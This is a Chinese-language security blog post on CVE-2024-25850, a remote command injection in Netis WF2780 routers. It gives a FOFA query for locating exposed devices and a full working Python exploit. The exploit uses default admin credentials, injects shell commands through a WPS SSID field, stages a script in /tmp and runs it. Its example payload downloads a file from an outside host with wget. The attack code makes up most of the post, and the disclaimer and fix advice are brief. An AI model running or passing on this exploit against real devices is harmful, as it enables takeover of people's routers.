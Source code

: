 #  CVE-2024-25850   
原创 fgz  AI与网安   2024-04-11 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Netis WF2780 远程命令执行  
漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
Netis WF2780 v2.1.40144版本  
```
https://www.netis-systems.com/Suppory/de_details/id/1/de/189.html
```  
  
03  
  
—  
  
漏洞描述  
  
  
Netis是一家专门从事网络通信设备的制造商。他们提供各种网络设备，包括路由器、交换机、无线接入点和网络适配器等。  
Netis   
WF2780 v2.1.40144版本在  
bin/cgitest.cgi文件的函数igd_wps_set中有一个远程命令注入漏洞。会导致被远控。  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
title='AP setup' && header='netis'
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNjPQZBCnuaHcpibwlQQk4YhtERSf3G6ML2515tXDmVZ4BT0KcV3lLBeStfQPkJKHKiaHNXyO0T1qfQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
05  
  
—  
  
 poc  
  
  
python poc文件内容如下  
```
#!/usr/bin/env python3

import urllib.parse
import socket 


def send_cmd(ip, port, cmd):
    cmd = "\";"+cmd+";\""
    #print(f"cmd:{cmd}")
    body = "wps_set_5g=ap&wps_mode5g=cpin&wps_ap_ssid5g=" + urllib.parse.quote(cmd)
    request = "POST /cgi-bin-igd/netcore_set.cgi HTTP/1.1\r\n"
    request += f"Host: {ip}\r\n"
    request += "Content-Length: {}\r\n".format(len(body))
    request += "Authorization: Basic YWRtaW46YWRtaW4=\r\n"
    request += "Cache-Control: no-cache\r\n"
    request += "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36\r\n"
    request += "content-type: application/x-www-form-urlencoded\r\n"
    request += f"Origin: http://{ip}\r\n"
    request += f"Referer: http://{ip}/index.htm\r\n"
    request += "Accept-Encoding: gzip, deflate\r\n"
    request += "Accept-Language: zh-CN,zh;q=0.9\r\n"
    request += "Connection: close\r\n\r\n"
    request += body
    c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    c.settimeout(8)
    c.connect((ip,port))
    c.send(request.encode())
    c.recv(1024)
    #print(c.recv(1024))

def main(ip, port, cmd):
    for i in range(len(cmd)):
        if i == 0:
            _cmd = f"echo \'{cmd[i]}\\c\' > /tmp/s.sh"
        else:
            _cmd = f"echo \'{cmd[i]}\\c\' >> /tmp/s.sh"
        send_cmd(ip, port, _cmd)
    
    send_cmd(ip, port, "chmod 777 /tmp/s.sh")
    send_cmd(ip, port, "sh /tmp/s.sh")
    


if __name__ == "__main__":
    main("192.168.1.1", 80, "cd /tmp;wget http://192.168.1.2:8888/a")
    #main("192.168.1.1", 80, "reboot")
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNjPQZBCnuaHcpibwlQQk4YhPm2biacgfLO3f2hdtXQiczmDCyNCktLZoqTRUQSjBicss3nfEz3wOxoRw/640?wx_fmt=png&from=appmsg "")  
  
  
  
06  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
